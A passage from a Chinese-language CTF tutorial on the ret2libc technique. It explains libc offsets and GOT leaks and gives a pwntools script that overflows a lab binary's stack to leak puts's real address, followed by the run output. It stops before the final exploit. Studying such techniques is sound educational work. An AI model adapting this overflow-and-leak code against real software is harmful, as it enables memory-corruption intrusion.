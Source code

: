 两个都没有，所以只能自己找

4、泄露地址

libc.so动态链接库里的函数的偏移是固定的，system函数是属于libc的，而且libc中也有/bin/s；每个libc.so中的函数偏移是固定的，libc版本不同，偏移不同。找到libc版本，即可知道每个函数在这个libc文件的偏移量。

**libc基地址  +  函数偏移量   =  函数真实地址**

所以我们目前需要：程序中某个函数的真实地址——>libc版本——>libc基地址

那么如何能够得到一个函数的真实地址呢？

采用got表泄露，got表里存放着就是函数的真实地址，如果函数运行过一遍，里面存放的就是函数的真实地址，如果没有运行，就需要先动态链接重定位，这个过程请详见**动态链接**部分。

观察上面程序，我们的目的是要通过输入使栈溢出从而泄露某个函数的真实地址，而在gets函数之前执行的有puts函数，所以当我们输入值的时候got表中已近有puts函数的真实地址。

```python
# -*- coding: utf-8 -*-
from pwn import *

p = process('./ret2libc3')
e = ELF('./ret2libc3')

puts_got_addr = e.got['puts']   #得到puts函数的got地址，这个地址存放着puts函数真实的地址，需要泄露的地址
puts_plt_addr = e.plt['puts']   #需要借助puts函数将泄露的地址返回给我们
main = e.symbols['main']        #在调用完puts函数将泄露地址返回给我们后，使程序回到main函数，重新栈溢出

payload = ''
payload += 'A'*112              #填充数据，即需要输入的数据
payload += p32(puts_plt_addr)   #原先这里是gets函数执行完后的返回地址，现覆盖返回地址为puts函数执行地址
payload += p32(main)            #按照上一步，这里应该为puts函数的返回地址，覆盖为main函数的地址
payload += p32(puts_got_addr)   #这里是puts函数的参数
#payload = flat(['A' * 112, puts_plt_addr, main, puts_got_addr])#或者使用这一行代替上面的5行

p.sendlineafter('Can you find it !?', payload)  #表示接收到这些字符串再发送payload

puts_rel_addr = u32(p.recv()[0:4])  #将地址输出出来后再解包，此时就得到了puts函数的真实地址
print hex(puts_rel_addr)
```

```
dililearngent@dililearngent-virtual-machine:~/Desktop/pwn1$ python ret2libc3.py 
[+] Starting local process './ret2libc3': pid 75942
[*] '/home/dililearngent/Desktop/pwn1/ret2libc3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0xf7ddf150
[*] Stopped process './ret2libc3' (pid 75942)
```

得到了puts函数的真是地址为0xf7ddf150

5、exp
